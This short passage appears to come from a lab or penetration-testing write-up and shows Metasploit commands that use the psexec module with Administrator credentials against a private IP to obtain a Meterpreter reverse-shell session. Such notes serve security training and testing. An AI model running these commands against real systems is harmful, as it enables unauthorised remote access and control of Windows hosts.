 - Obtain a `Meterpreter` session with MSF

```bash
msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS 10.2.26.45
set SMBUser Administrator
set SMBPass vagrant
set payload windows/x64/meterpreter/reverse_tcp
run
```

![Elevated meterpreter session](.gitbook/assets/image-20230424121859926.png)

